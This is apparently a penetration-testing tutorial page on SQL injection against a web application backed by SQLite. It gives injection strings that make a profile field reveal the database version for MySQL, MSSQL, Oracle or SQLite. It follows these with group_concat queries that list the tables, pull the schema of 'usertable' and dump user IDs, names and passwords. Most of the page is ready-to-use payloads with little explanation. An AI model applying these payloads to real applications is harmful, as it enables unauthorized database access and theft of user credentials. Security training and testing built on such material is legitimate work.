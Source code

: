 # Quaries for Dump from SQLlite Database


********** 

### With this knowledge, we can try to identify what database is in use. There are a few ways to do this, but the easiest way is to ask the database to identify itself. The following queries can be used to identify MySQL, MSSQL, Oracle, and SQLite:

```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```



**The ```group_concat()``` function is used to dump all the tables simultaneously.**

```
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/45abaf5b-2f09-411c-876b-f6b211421ab6)



We can then continue by ```extract all the column names``` from the usertable:

```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ae87ab7b-1b19-4f2c-a3a5-c59b5d2be6b7)



### By knowing the names of the columns, we can extract the data we want from the database. 


```
SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/dc5e3631-23bb-4ca6-b603-d0cf6fbccfc1)


























